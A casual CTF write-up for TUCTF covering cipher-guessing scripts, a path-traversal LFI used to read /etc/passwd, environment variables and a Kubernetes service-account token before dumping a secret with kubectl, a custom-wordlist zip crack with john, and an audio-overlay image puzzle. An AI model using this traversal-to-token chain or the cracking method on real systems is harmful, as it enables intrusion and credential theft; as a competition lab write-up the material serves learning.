





tuctf
solved some stuff. overall i had a great time during this ctf, i think the challenges were very well put together and covered some cool topics, and it made for a fun weekend. we placed 3rd in the open category as ssm. fave challenges included alien interference, haunted game, so many states, silly cloud, and arcane.
arcane - 492pts, 15 solves
this was half solved by my teammate minty, yoinked half her code that was interacting with the program. i solved parts 5, 6, 7, and will cover those.
if youre doing enough ctfs you have to learn about the glorious art of the steal, how to cheese and skate by without actually knowing what on earth is going on. sometimes this is called engineers intuition, arriving at a solution without fully understanding the problem at hand. in many ctfs there are probably 4 or 5 challenges that you can sneak your way through and this was one of them. dont expect this to be a thorough explanation of the encryption methods at the heart of this challenge because as of writing i still dont know.
challenge overview: there are 8 encryption methods that must be cracked to get the flag, named after arcane characters. you're able to pass in a string and get its encoded version, and are supposed to reverse engineer the mechanism that encodes the string. the challenge gives you around 50 example strings you need to solve without timing out per subproblem.
the encryption methods take a printable string and typically output a printable string of the same length. by printable i mean ascii characters, and 90% of the time they're uppercase english letters. some of the easier levels include vigenere, caesar shifting, so on etc.
the art of the steal lies in exploiting two things:
- it's perfectly fine to submit wrong answers, just as long as you eventually submit the right one.
- all the answers are english words that can be found in a wordlist.
let's say i've halfway cracked one of the encryption methods, and am able to accurately recover maybe five or six of the letters, out of an 11 letter word. i'm now left with the following pattern:
ACC?S????????this is basically now a game of hangman. get a suitably big wordlist, import it, and do some regex hunting to find your a suitable word:
┌──(navi@jinxed)-[~/…/ctf/tu/crypto/arcane]
└─$ cat yaoi.py
import re
wordlist = open('arcane.txt').read().split('\n')
decrypted = "ACC.S........"
pattern = re.compile(decrypted, re.IGNORECASE)
for word in wordlist:
if pattern.match(word) and len(word) == len(decrypted):
print(word)
┌──(navi@jinxed)-[~/…/ctf/tu/crypto/arcane]
└─$ python yaoi.py
accessariness
accessaryship
accessibility
accessoriness
accustomation
if we're able to generate this list, we can just repeatedly send each word to the server and wait until we get the right one. the next step is then simple. how do we get these patterns? how do we figure out which letters are confirmed to be in the decrypted word, and which ones aren't?
now we actually have to begin attacking the black boxes of each function. i wrote a simple script to automate getting inputs / outputs from my level of choice (largely building off of minty's code, you'll be able to tell the difference between my code and hers because hers is nice and cleanly formatted and mine looks like a 11 year old wrote it).
import socket
import re
from datetime import datetime
class ArcaneSolver:
def __init__(self, host, port):
self.host = host
self.port = port
self.current_level = 0 # Start at Level 0
self.sock = None
def connect(self):
self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
self.sock.settimeout(5)
self.sock.connect((self.host, self.port))
def log(self, message, role="CLIENT"):
timestamp = datetime.now().strftime("%H:%M:%S.%f")[:-3]
print(f"[{timestamp}] [{role}] {message}")
def clean_ansi(self, text):
return re.sub(r'\x1b\[[0-9;]*m', '', text)
def recv_until_prompt(self, prompt_pattern):
buffer = ""
while True:
try:
data = self.sock.recv(4096).decode('utf-8', errors='replace')
if not data:
break
cleaned = self.clean_ansi(data)
buffer += cleaned
if re.search(prompt_pattern, buffer):
return buffer
except socket.timeout:
self.log("Timeout waiting for data", "ERROR")
break
return buffer
def send(self, message):
if not message.endswith('\n'):
message += '\n'
self.log(f"Sending: {message.strip()}")
self.sock.sendall(message.encode())
def handle_levels(self):
menu = self.recv_until_prompt(r'What level\?\s*$')
self.current_level = 7
self.send(str(self.current_level))
# Get level setup
setup = self.recv_until_prompt(r'Give me text:\s*$')
message = input('enter messsage... ')
self.send(message)
buffer = self.recv_until_prompt('Decrypt')
encrypted_message = buffer.split('\n')[0].split('s')[-1].lstrip(" ")
decrypted_message = []
for _ in encrypted_message.split(' '):
decrypted_message.append(int('0x' + _, 16))
nums = [ord(i) for i in message.upper()]
diffs = [nums[i] - decrypted_message[i] for i in range(len(decrypted_message))]
print(''.join(chr(x) for x in decrypted_message))
print(nums)
print([nums[i] - nums[i + 1] for i in range(len(nums) - 1)])
print([decrypted_message[i] - decrypted_message[i + 1] for i in range(len(nums) - 1)])
print(decrypted_message)
print(diffs)
if __name__ == "__main__":
solver = ArcaneSolver('chal.tuctf.com', 30002)
solver.connect()
for i in range(1, 100):
solver.handle_levels()
just as a general ctf tip, writing scripts like this to automate information gathering is a really good idea. it makes your experience a lot more enjoyable if you just take the time to build the right tools for yourself. anyway sending in some basic inputs for level 5...
┌──(navi@jinxed)-[~/…/ctf/tu/crypto/arcane]
└─$ python helper.py
[01:40:53.510] [CLIENT] Sending: 5
enter messsage... fudanshipride
[01:40:55.488] [CLIENT] Sending: fudanshipride
FUDANSCEMPEAN
[01:40:58.834] [CLIENT] Sending: 5
enter messsage... ifyourereadingthisyouregay
[01:41:24.285] [CLIENT] Sending: ifyourereadingthisyouregay
IFYOUREREADINEQADPXJSMUEIX
it seems like this encryption mechanism leaves the first half completely unaltered. (we can test with a lot more patterns, and it does hold up). so our pattern is just "ABCD....", where "ABCDEFGH" is the word we receive from naively decrypting the hex string. we write a quick solver.
def solve_level5(hex_str):
alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
hex_values = hex_str.strip().split()
encrypted = [bytes.fromhex(h).decode('latin-1') for h in hex_values]
first_half = encrypted[:len(encrypted) // 2]
second_half = encrypted[len(encrypted) // 2:]
decrypted = ''.join(first_half)
d = re.compile(''.join(first_half) + ''.join(['.' for _ in range(len(encrypted) // 2)]), re.IGNORECASE)
print(pattern, d)
weaker_candidates = []
for word in wordlist:
if d.match(word) and len(decrypted) == len(word):
word = word.upper()
limit = len(word) // 2 + 1
flag = True
for char_a, char_b in zip(word, ''.join(encrypted)):
#print(char_a, char_b, ord(char_a) - ord(char_b))
if ord(char_a) - ord(char_b) > limit:
flag = False
break
if flag:
#print(f'{word} is good')
weaker_candidates.append(word)
return weaker_candidates
run it...
┌──(navi@jinxed)-[~/…/ctf/tu/crypto/arcane]
└─$ python misty.py
[01:48:48.720] [CLIENT] Connecting to chal.tuctf.com:30002
[01:48:49.057] [CLIENT] Connection established
[01:48:50.287] [SERVER] Received:
Welcome to this year's rendition of Never Ending Crypto, this time with an Arcane twist.
You can complete these levels in any order, but I recommend you do 6 and 7 last, as they build on previous levels.
0: Hextech Incomplete
1: Caitlyn Incomplete
2: Jinx Incomplete
3: Vi Incomplete
4: Isha Incomplete
5: Ekko Incomplete
6: Timebomb Incomplete
7: Arcane Incomplete
What level?
Not a number
0: Hextech Incomplete
1: Caitlyn Incomplete
2: Jinx Incomplete
3: Vi Incomplete
4: Isha Incomplete
5: Ekko Incomplete
6: Timebomb Incomplete
7: Arcane Incomplete
What level?
[01:48:50.288] [CLIENT] Selecting level 5
[01:48:50.288] [CLIENT] Sending: 5
[01:48:50.543] [SERVER] Received:
Level 5: Ekko
[01:48:50.545] [SERVER] Received:
Give me text:
[01:48:50.545] [CLIENT] Sending: hex
[01:48:50.798] [SERVER] Received:
HEX encrypted is 48 44 58
Decrypt 41 42 52 4f 45 41 54 43
[01:48:50.799] [CLIENT] Challenge: 41 42 52 4f 45 41 54 43
len(solution) = 1
[01:48:50.904] [CLIENT] Sending: ABROGATE
[01:48:51.208] [SERVER] Received:
Nice job!
Decrypt 4d 41 47 4e 48 44 59
[01:48:51.208] [CLIENT] Challenge: 4d 41 47 4e 48 44 59
len(solution) = 1
[01:48:51.300] [CLIENT] Sending: MAGNIFY
[01:48:51.607] [SERVER] Received:
Whoop whoop!
Decrypt 4f 46 46 50 52 47 4c 54
[01:48:51.607] [CLIENT] Challenge: 4f 46 46 50 52 47 4c 54
len(solution) = 1
[01:48:51.701] [CLIENT] Sending: OFFPRINT
[01:48:52.027] [SERVER] Received:
Yeah! You do that Crypto!
Decrypt 42 55 46 44 42 4b 4e
[01:48:52.028] [CLIENT] Challenge: 42 55 46 44 42 4b 4e
len(solution) = 1
[01:48:52.133] [CLIENT] Sending: BUFFALO
[01:48:52.436] [SERVER] Received:
Way to go!
skibidi...
the next challenge, 6, is, well...
┌──(navi@jinxed)-[~/…/ctf/tu/crypto/arcane]
└─$ python helper.py
[01:51:17.846] [CLIENT] Sending: 6
enter messsage... ohtheskibidieverybodywantstobemyenemy
[01:51:24.653] [CLIENT] Sending: ohtheskibidieverybodywantstobemyenemy
¶¿Ë¿¼Ê²°¹°»°¼Í¼ÉÀ¹½¼Ï̶ºµ´µ½¿Ê¸ÏʺʸÏ
no idea whats going on, but since these are all printable characters i updated the code to show me the differences in ascii codes between my plaintext and its encrypted string, and it reveals a strange pattern...
┌──(navi@jinxed)-[~/…/ctf/tu/crypto/arcane]
└─$ python helper.py
[01:53:44.212] [CLIENT] Sending: 6
enter messsage... imgayandipissandshitallovertheplace
[01:53:50.384] [CLIENT] Sending: imgayandipissandshitallovertheplace
°´¾¸À¸µ»°Ç°Êʸµ»ÊÇÊÉ°¼¼±ÌÀ¶ÉÇÀ²¼°¾À
[73, 77, 71, 65, 89, 65, 78, 68, 73, 80, 73, 83, 83, 65, 78, 68, 83, 72, 73, 84, 65, 76, 76, 79, 86, 69, 82, 84, 72, 69, 80, 76, 65, 67, 69]
[-103, -103, -119, -119, -103, -119, -103, -119, -103, -119, -103, -119, -119, -119, -103, -119, -119, -127, -129, -117, -111, -112, -112, -98, -118, -123, -100, -117, -127, -123, -98, -112, -111, -123, -123]
again, the two halves are undergoing different encryption methods. in the first half, it either adds 103 or 119 to the ascii code, and the second half i genuinely still don't even understand but we can derive enough from the first half so we just pay it no mind for now.
more testing reveals that it is only those two values that are possible, and it's unclear how the values are determined. but we don't really need to determine that anyway! we can just assume that it can be both characters, and write our regex accordingly.
our regex will look something like:
A[BC][DE][FG]....
where [BC], [DE], [FG] etc.. are the characters you get when subtracting 103 or 119 from the encrypted text. this actually does not narrow it down too much. my candidates list grows to around 100, and shrinks to 10 or 15 if we're lucky. but regardless, it's good enough to completely circumvent the encryption mechanism:
[01:57:45.434] [CLIENT] Challenge: bb bc b3 c7 bd be b4 cc ca
['bb', 'bc', 'b3', 'c7', 'bd', 'be', 'b4', 'cc', 'ca']
DT
EU
L
P
19
len(solution) = 5
[01:57:45.500] [CLIENT] Sending: delphacid
[01:57:45.500] [CLIENT] Sending: delphinic
[01:57:45.500] [CLIENT] Sending: delphinid
[01:57:45.500] [CLIENT] Sending: delphinin
[01:57:45.500] [CLIENT] Sending: delphinus
[01:57:45.738] [SERVER] Received:
You can do better.
and now onto part 7... time to do the same shit:
┌──(navi@jinxed)-[~/…/ctf/tu/crypto/arcane]
└─$ python helper.py
[02:00:41.261] [CLIENT] Sending: 7
enter messsage... ijustfrewuptheloveofmydreams
[02:00:44.646] [CLIENT] Sending: ijustfrewuptheloveofmydreams
EHTPUWERFTSUJIMBEULPYBWDUQDA
[02:00:48.011] [CLIENT] Sending: 7
enter messsage... heisinmyheartheisinmyears
[02:00:54.749] [CLIENT] Sending: heisinmyheartheisinmyears
RAEHYMNISIEHPORYXFGSPSYIQ
it's a little hard to see, but the first half is just reversed in the output string. this is definitely enough to solve since we recover the entire first half.
our regex is then:
DBCA....
where our string that we receive is ABCD.... - write another quick solver:
def solve_level7(self, hex_str):
hex_values = hex_str.strip().split()
encrypted = [int('0x' + _, 16) for _ in hex_values]
first_half = encrypted[:len(encrypted) // 2]
second_half = encrypted[len(encrypted) // 2:]
pattern = "".join(chr(_) for _ in first_half[::-1]) + "." * len(second_half)
d = re.compile(pattern, re.IGNORECASE)
candidates = []
for word in wordlist:
if d.match(word) and len(word) == len(encrypted):
candidates.append(word)
return candidates
with that, we can just run the code...
┌──(navi@jinxed)-[~/…/ctf/tu/crypto/arcane]
└─$ python misty.py
[02:04:46.609] [CLIENT] Connecting to chal.tuctf.com:30002
[02:04:46.910] [CLIENT] Connection established
[02:04:47.730] [SERVER] Received:
Welcome to this year's rendition of Never Ending Crypto, this time with an Arcane twist.
[SEVERAL LINES REDACTED]
and...
Whoop whoop!
Congratulations! You beat Level 7!
What could have been?
Here's your flag:
TUCTF{wh4t_c0u1d_h4v3_b33n}
[02:07:26.861] [CLIENT] Level 7 completed!
[02:07:26.861] [CLIENT] Connection closed
done!
silly cloud - 470pt, 27 solves
i didn't fully solve this, my teammates found the lfi on the application and i worked from there doing all the cloud work. i've never interacted with k8s before so it was cool to try it out.
the lfi is here:
https://silly-cloud.tuctf.com/logs?service=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
app:x:1000:1000::/nonexistent:/usr/sbin/nologin
we check the usual suspects. /etc/passwd, app.py, etcetera... nothing interesting, until we look at /proc/self/environ (which you should just always do by default if you have lfi)
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin�
HOSTNAME=silly-cloud-6cc798ddbb-tbd2h�LANG=C.UTF-8�
GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D�PYTHON_VERSION=3.10.16�
PYTHON_SHA256=bfb249609990220491a1b92850a07135ed0831e41738cf681d63cf01b2a8fbd1�
SECRETS_NAMESPACE=secret-namespace�
DEV_CLUSTER_ADDR=https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com...
i filtered out a bunch of irrelevant stuff, but here we can tell that this server is somehow linked to k8s in some way, and there's the external api and the name of a certain namespace.
at this point i realize i'm completely out of my element and do a few google searches for "k8s ctftime", "k8s ctf writeup", "enumerating k8s" that turn up kind of empty. i'm not sure what to do here and what to look for and i'm looking for guidance, and i eventually find it through my lord and saviour, 0xdf, who you'll probably be familiar with if you're in cyber. he does writeups for hackthebox machines, and there's a specific box Unobtainium that deals with exploiting k8s through information gathered via lfi.
heres the post. he shows where the kubernetes jwt and ca.crt are located, so we lfi those:
#/run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUzI1NiIsImtpZCI6IjU2NnhHZDhPTm...
#/run/secrets/kubernetes.io/serviceaccount/ca.crt
-----BEGIN CERTIFICATE-----
MIIDJzCCAg+gAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln
aXRhbE9jZWFuMRowGAYDVQQDExFrOHNhYXMgQ2x1c3RlciBDQTAeFw0yNTAxMjAy
skibidi. okay anyways i still have no idea what im doing so i just keep consulting the 0xdf writeup, he tells me to run a certain command to enumerate permissions, so i do:
┌──(navi@jinxed)-[~/…/ctf/tu/misc/cloud]
└─$ kubectl auth can-i --list --token $TOKEN --server https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com/ --certificate-authority ca.crt
[...] unnecessary lines removed
[/version/] [] [get]
[/version] [] [get]
[/version] [] [get]
[top-secret-flag] [get]
wow epic. top-secret-flag. cool! now how do we get this? 0xdf stops helping, and i inevitably end up with this command, which i honestly can't really explain:
┌──(navi@jinxed)-[~/…/ctf/tu/misc/cloud]
└─$ kubectl get secret top-secret-flag -n secret-namespace -o jsonpath="{.data}" --token $TOKEN --server https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com/ --certificate-authority ca.crt | jq -r 'to_entries[] | "\(.key): \(.value | @base64d)"'
flag: TUCTF{3ven_m04r_51lly_d3f4ul75}
but woohoo! there it is. cool challenge!
blog posting - 499pt, 7 solves
only solved this after an update was made that said "the zip file is now different, the solve path is still the same though. the challenge consists of a static website and a password protected zip file, whose password doesnt crack with rockyou, so we figure we need to find the password somewhere.
i guessed that the change made is reducing the iteration count on the zip hash so that brute forcing it is less painful, and i was right. therefore, we thought some more about where to get the password, and figured it had to be with words from the website itself.
the website contains three main pieces of interesting information:
-
the years the blog posts were created
-
the name of the owner's dog (in the filename of the image, 'picOfHash')
-
the owner's favorit ebooks
theres really not much else on the site to try, and these three things stick out immediately as the big ones. however if you're smart and write a script to automatically generate wordlists to pass to john, you can trial and error some wordlists pretty quickly.
a brief aside about challenges and ctf writing in general. is this challenge guessy? sure, kind of, you do have to guess which information is useful, and you have to guess that you need to do this. is this challenge bad? no. it's completely fair and reasonable to make these deductions imo, due to the complete lack of literally anything else to do on the site / zip file. if there are no visible paths except one, you should take it, even if it feels like a little bit of a leap.
i think this is a difficult kind of challenge to try and write bc youll have a bunch of skissue people complaining about how they couldnt do it, and immediately chalk that up to a bad challenge instead of looking inwards. i hate that shit! sometimes the challenge is bad, sometimes the challenge is fair. this time it was completely fair, and honestly guessing a little bit and trying to work out possible combinations of the password is kind of fun if you dont have a little bitch in your ear telling you its 'guessy'. stop using guessiness as an excuse for your own shortcomings!
if id written it i probably would have hidden some hints telling people that the password is completely alphanumeric, or maybe even the length of the password. i think there are a few too many things to try as is and helping people narrow it down doesnt hurt.
anyways my code iterates through a few things. i compiled a list of potential words from the list of books, e.g. there's Rappacinni's Daughter listed, so i added Rappacinni, and Daughter, and RappacinnisDaughter, and Rappacinni's Daughter, and Rappacinni'sDaughter. i did this all manually which isn't too annoying given theres only 5 or so books.
then, i figured we needed the name of the dog, and a year. i initially used 2019 and only 2019, which was a mistake because i shouldve used both 2019 and 2024 - this was the main thing blocking me from solving. once i figured out it was actually 2024 instead,
the final code is here:
┌──(navi@jinxed)-[~/…/ctf/tu/rev/pluh]
└─$ cat permute.py
from itertools import permutations, combinations
books = [
"RappacinnisDaughter",
"TheSphinx",
"Sphinx",
"Expanse",
"TheExpanse",
"Stormlight",
"Archive",
"StormlightArchive",
"TheStormlightArchive",
"1984",
"American",
"Prometheus",
"AmericanPrometheus"
]
years = {"2019", "2024"}
dog = "Hash"
passwords = open('passwords.txt', 'w')
with open("passwords.txt", "w") as passwords:
for book in books:
for year in years:
items = [book, dog, year]
for perm in list(permutations(items)):
password = ''.join(perm)
passwords.write(password + '\n')
passwords.write(password.upper() + '\n')
passwords.write(password.lower() + '\n')
run it up:
┌──(navi@jinxed)-[~/…/ctf/tu/rev/pluh]
└─$ john flag.txt --show
flag.zip/flag.txt:HashStormlight2024:flag.txt:flag.zip::flag.zip
1 password hash cracked, 0 left
unzip it:
┌──(navi@jinxed)-[~/…/ctf/tu/rev/pluh]
└─$ unzip flag.zip
Archive: flag.zip
[flag.zip] flag.txt password:
replace flag.txt? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
extracting: flag.txt
┌──(navi@jinxed)-[~/…/ctf/tu/rev/pluh]
└─$ cat flag.txt
TUCTF{p@55w0rd_cr@ck1ng_m@st3r_s3998f}
alien interference - 498, 9 solves
cool challenge! its a site w/ a .wav file and a .bmp file which is datamoshed, and we need to undo this datamoshing somehow.

we inspect the source of the site:
const checkFile = async (filename) => {
const response = await fetch(filename)
const buffer = await response.arrayBuffer();
const view = new DataView(buffer)
const chunkID = String.fromCharCode(view.getUint8(0), view.getUint8(1), view.getUint8(2), view.getUint8(3));
const format = String.fromCharCode(view.getUint8(8), view.getUint8(9), view.getUint8(10), view.getUint8(11));
console.log(`chunkID: ${chunkID}, format: ${format}`);
if ((view.getUint8(20) | view.getUint8(21) << 8) !== 7) { // The voices tell me this is very important.
alert('Encoding Error!');
return;
}
}
so this just checks that the wav file is indeed a .wav file. but the fact that this function was even written tells me that the .wav file is indeed important somehow, and that specific command checking if those bits are set is really interesting. what do those bits being set in the .wav file's headers mean?
quick search reveals that at those bits, it specifies the 'format' of the audio encoding. not really sure what this means but our value 7 corresponds to 'U-law' encoding, which must be useful somehow. what do we do?
in physics, destructive interference is the concept of 'removing' a wave from another wave via addition of the wave's inverse. i'm bad at explaining this because i have no physics background, here's an excerpt from galactic puzzle hunt 2018's puzzle solution about the concept, which i referred to a few times while solving.

so what exactly is going on here? let's go through a bit more information first.
┌──(navi@jinxed)-[~/…/ctf/tu/misc/alien]
└─$ ls -alps cat.bmp
1184 -rw-r--r-- 1 navi navi 1211798 Jan 26 09:09 cat.bmp
┌──(navi@jinxed)-[~/…/ctf/tu/misc/alien]
└─$ ls -alps four.wav
1172 -rw-r--r-- 1 navi navi 1197562 Jan 26 09:10 four.wav
the file sizes are indeed very similar, but not quite exactly the same. the explanation for what's going on is simple: the bmp file has the wav file overlaid on top of it. in audacity, you can import bmp files as raw data, interpreting it as a waveform. then, you import an actual .wav file, add the two waveforms together, and export as a .bmp file.
there's some nuance to this wrt the file headers: you need to make sure the first few hundred bytes or so are unaltered so that it actually gets read as a bmp file, hence why the .wav is a little smaller than the .bmp. so how do we actually unencrypt the file? simple:
- open bmp as raw data with U-law encoding.
- import wav as well (as audio).
- invert the .wav, then mix the two tracks together.
- export as raw data.

just from inspection we can see that the waveforms are very similar. but anyways, proceeding with the inversion...

the resulting waveform looks a lot cleaner which is nice. save it, and open it to get the flag:
